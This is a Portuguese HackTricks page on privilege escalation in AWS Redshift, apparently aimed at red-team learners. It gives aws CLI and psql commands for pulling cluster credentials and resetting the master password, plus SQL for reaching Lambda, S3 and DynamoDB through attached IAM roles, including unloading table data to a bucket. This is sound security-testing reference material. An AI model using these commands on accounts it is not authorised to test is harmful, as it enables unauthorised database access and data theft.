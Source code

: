 # AWS - Redshift Privesc

<details>

<summary><strong>Aprenda hacking na AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## Redshift

Para mais informações sobre o RDS, verifique:

{% content-ref url="../aws-services/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

Com essas permissões, você pode obter **informações de todos os clusters** (incluindo nome e nome de usuário do cluster) e **obter credenciais** para acessá-lo:

```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```

**Impacto Potencial:** Encontrar informações sensíveis dentro dos bancos de dados.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

Com essas permissões, você pode obter **informações de todos os clusters** e **obter credenciais** para acessá-los.\
Observe que o usuário postgres terá as **permissões que a identidade IAM** usada para obter as credenciais tem.

```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```

**Impacto Potencial:** Encontrar informações sensíveis dentro dos bancos de dados.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

É possível **modificar a senha mestra** do usuário interno postgres (redshit) a partir do aws cli (Acredito que essas são as permissões necessárias, mas ainda não as testei):

```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```

**Impacto Potencial:** Encontrar informações sensíveis dentro dos bancos de dados.

## Acessando Serviços Externos

{% hint style="warning" %}
Para acessar todos os recursos a seguir, você precisará **especificar a função a ser usada**. Um cluster Redshift **pode ter atribuído uma lista de funções da AWS** que você pode usar **se souber o ARN** ou pode simplesmente definir "**padrão**" para usar o padrão atribuído.

Além disso, como [**explicado aqui**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), o Redshift também permite concatenar funções (desde que a primeira possa assumir a segunda) para obter acesso adicional, apenas **separando** elas com uma **vírgula**: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### Lambdas

Conforme explicado em [https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html), é possível **chamar uma função lambda do redshift** com algo como:

```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```

### S3

Conforme explicado em [https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html), é possível **ler e escrever em buckets do S3**:

```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```

### Dynamo

Conforme explicado em [https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html), é possível **obter dados do dynamodb**:

```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```

{% hint style="warning" %}
A tabela do Amazon DynamoDB que fornece os dados deve ser criada na mesma Região da AWS que o seu cluster, a menos que você use a opção [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region) para especificar a Região da AWS na qual a tabela do Amazon DynamoDB está localizada.
{% endhint %}

### EMR

Verifique [https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)

## Referências

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

<details>

<summary><strong>Aprenda hacking na AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

